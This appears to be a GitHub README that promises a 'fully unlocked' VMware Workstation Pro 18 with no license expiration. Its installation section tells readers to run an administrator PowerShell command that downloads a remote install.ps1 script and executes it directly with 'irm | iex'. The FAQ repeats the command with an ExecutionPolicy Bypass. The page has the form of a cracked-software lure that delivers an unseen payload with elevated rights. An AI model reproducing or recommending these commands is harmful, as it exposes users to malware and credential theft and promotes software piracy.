

<div align="center">


<br>


# VMware Workstation Pro 18 Full Setup
**Workstation 18 · Snapshots · Clusters**
<br>
**Workstation 18 · Snapshots · Clusters**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked VMware Workstation Pro 18 — multi-OS virtualization, linked clones, snapshots and encrypted VM workflows enabled.**

</div>

---

> Full Pro setup unlocks snapshots, encrypted VMs and virtual network editor — run virtual machines without license expiration.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🖥️ **Virtual machines** — Run multiple OS instances with full hardware passthrough.
- 📸 **Snapshots** — Checkpoint, clone and rollback workflows enabled.
- 🌐 **Virtual networking** — Custom NAT, bridged and host-only configurations.
- 🔒 **Encryption** — VM encryption and restricted guest access included.
- 🔓 **Pro features** — Linked clones, shared VMs and team collaboration active.
- ⚙️ **Developer tools** — Docker, Kubernetes and Vagrant integration ready.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 10 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 10 GB free space.
</details>


TAGS
vmware-workstation, workstation-18, virtual-machine, vm-snapshots, hypervisor-desktop, vmware-2026, guest-os, virtualization, it-administration, development-tools, infrastructure, sysadmin, cloud-computing, vmware-workstation-pro, vmware-workstation-pro-pc
